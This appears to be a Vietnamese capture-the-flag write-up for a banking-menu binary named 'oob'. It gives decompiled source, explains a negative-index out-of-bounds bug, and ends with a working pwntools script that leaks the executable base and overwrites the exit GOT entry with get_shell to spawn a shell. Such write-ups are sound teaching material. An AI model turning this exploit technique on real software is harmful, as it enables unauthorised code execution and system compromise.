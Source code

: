 # out of bounds hay OOB
## 1. Source
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("------ JHTBank ------");
  while ( 1 )
  {
    main_menu();
    __isoc99_scanf("%d", &v5);
    if ( v5 != 1 )
      break;
    printf("Index: ");
    __isoc99_scanf("%d", &v4);
    if ( v4 <= 9 )
    {
      account_menu();
      __isoc99_scanf("%d", &v5);
      if ( v5 == 4 || v5 == 3 || v5 == 2 )
      {
        if ( *((_QWORD *)&acc + 2 * v4) )
        {
          if ( v5 == 4 )
          {
            printf("Name: %s\n", *((const char **)&acc + 2 * v4));
            printf("Amount: %lu\n", qword_3608[2 * v4]);
          }
          else if ( v5 == 2 )
          {
            printf("Enter name: ");
            __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
          }
          else
          {
            printf("Enter amount: ");
            __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
          }
        }
        else
        {
          puts("You didn't create this account!");
        }
      }
      else if ( v5 == 1 )
      {
        v3 = v4;
        *((_QWORD *)&acc + 2 * v3) = malloc(0x50uLL);
        printf("New name: ");
        __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
        printf("New amount: ");
        __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    else
    {
      puts("You can have maximum 10 accounts");
    }
  }
  exit(0);
}
```
## 2. Hướng giải
![Alt text](image-1.png)
![Alt text](image-2.png)
- Nhìn ảnh trên thì lỗi `OOB` nằm ở hàm if vì `v4` đc định dạng là 1 biến `int` thế cho nên ta có thể nhập vào giá trị âm và ta sẽ khai thác lỗi này.

![Alt text](image-3.png)
![Alt text](image-4.png)

- Với các option sau thì chức năng cơ bản của nó như sau:
  - option 1 là tạo acc mới dường như vô dụng ta sẽ ko khai thác đc gì ở đây
  - option 2 thay đổi tên acc
  - option 3 thay đổi giá trị tiền
  - option 4 là in ra dữ liệu có lẽ ta sẽ sử dụng option này để leak cái gì đấy thế nên ta vào debug xem nhé.

![Alt text](image-5.png)

- ta sẽ đặt breakpoint ở đây để khi nhập vào index ta có thể kiểm tra stack chính xác lỗi OOB diễn ra.

![Alt text](image-6.png)
![Alt text](image-7.png)
![Alt text](image-8.png)
- khi đến đoạn này nó sẽ gọi lên địa chỉ của 1 giá trị = `rax + rdx` khi search thử thì nó ra địa chỉ như ảnh sau.
![Alt text](image-9.png)
- Ta có thể thấy địa chỉ bắt đầu ở trên địa chỉ của `acc` , vậy là ta có thể leak đc các địa chỉ ở trên nữa để check xem phía trên có địa chỉ nào nữa ko nhé.
![Alt text](image-10.png)
![Alt text](image-11.png)
- Nhìn ảnh thì ta thấy có thể leak đc binary và các địa chỉ cả `GOT` và chương trình cho phép ta có thể `OW` đc got.
- Ở option 2 và 3 đều cho phép ta `OW` địa chỉ của `acc` và `amount`
nhưng sẽ có đôi chút khác biệt.
![Alt text](image-12.png)
- Như hình trên khi `change acc` thì nó sẻ khi vào con trỏ mà địa chỉ đó ko thể `W` đc nhưng còn `change money` thì nó lại trỏ đến stack và stack này lại trỏ đến 1 địa chỉ `GOT` thì ta chỉ xài `option 3` để khai thác bài này.

![Alt text](image-13.png)
- với script như này ta sẽ leak đc exe , tiếp theo ta chỉ cần `OW got` là đc.
![Alt text](image-14.png)
- ở vùng khoanh đỏ là các địa chỉ của `amount` với đuôi 8 thế thì ta thử check xem `GOT` nào chúng ta có thể `OW` đc.
![Alt text](image-15.png)
- Với các địa chỉ đc khoanh đỏ và có đuôi 8 ta có thể `OW` cac `GOT` sau thành `get_shell` , ta sẽ ưu tiên giữ `system` để nó có thể thực hiện `system(/bin/sh)` vậy thì ở đây tối ưu nhất là `exit`.
![Alt text](image-16.png)
- ta sẽ viết script như sau để `OW exit = get_shell`
- sau khi chạy thử thì đã thu đc shell.
![Alt text](image-17.png)
## 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('oob', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                b*main+240
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
###########################
###stage 1 : leak exe #####
###########################
sla(b'> ', b'1')
sla(b'Index: ', b'-5')
sla(b'> ', b'4')
p.recvuntil(b'Name: ')
exe_leak = u64(p.recvline()[:-1] + b'\0\0') #bởi vì địa chỉ nhận đc là dạng byte nên xài u64 chyển về số
exe.address = exe_leak - 0x35b0
info("Exe_leak: " + hex(exe_leak))
info("Exe_base: " + hex(exe.address))
#####################################
### Stage 2 : OW exit = get_shell ###
#####################################
sla(b'> ', b'1')
sla(b'Index: ', b'-9')
sla(b'> ', b'3')
sla(b'amount: ', str(exe.sym['get_shell']).encode()) # ở đây chúng ta sẽ nhập số ko phải nhập byte
                                                     #ta sẽ xài str để ép kiểu từ số về chữ và decode nó lại từ chuỗi thường sang byte

p.interactive()

```
